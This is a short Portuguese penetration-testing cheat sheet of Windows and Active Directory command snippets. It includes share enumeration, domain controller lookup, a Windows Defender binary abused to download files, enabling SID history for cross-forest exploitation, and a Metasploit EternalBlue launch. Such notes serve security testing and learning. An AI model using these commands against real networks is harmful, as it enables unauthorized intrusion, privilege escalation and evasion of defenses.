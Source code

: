 ## list o share de um computador
```
net view \\<ip> \ALL
```

## montar um share localmente
```
net use x: \\<ip>\<share_name>
```

## checar o share atual
```
net share
```

% windows, file, download
## windows baixar arquivo com windows defender
```
"c:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\mpcmdrun.exe" -DownloadFile -url <url> -path <result_file>
```

## baixar arqivo com o windows defender
```
mpcmdrun.exe -DownloadFile -url <url> -path <result_file>
```

% windows, active directory, dns

## identificar o IP do AD - exibe nome de domínio e dns
```
nmcli dev show <interface>
```

## nslookup AD - domínio
```
nslookup -type=SRV _ldap._tcp.dc._msdcs.<domain_name>
```

% windows, active directory

## habilitar historico de SID
Enable history on source domain for target domain (useful for forest extra SID exploitation)
```
netdom trust <source_domain> /d:<target_domain> /enablesidhistory:yes
```

% windows, cve
## windows eternal blue - smb - ms17-010
```
msfconsole -x "use exploit/windows/smb/ms17_010_eternalblue"
```

= interface: eth0
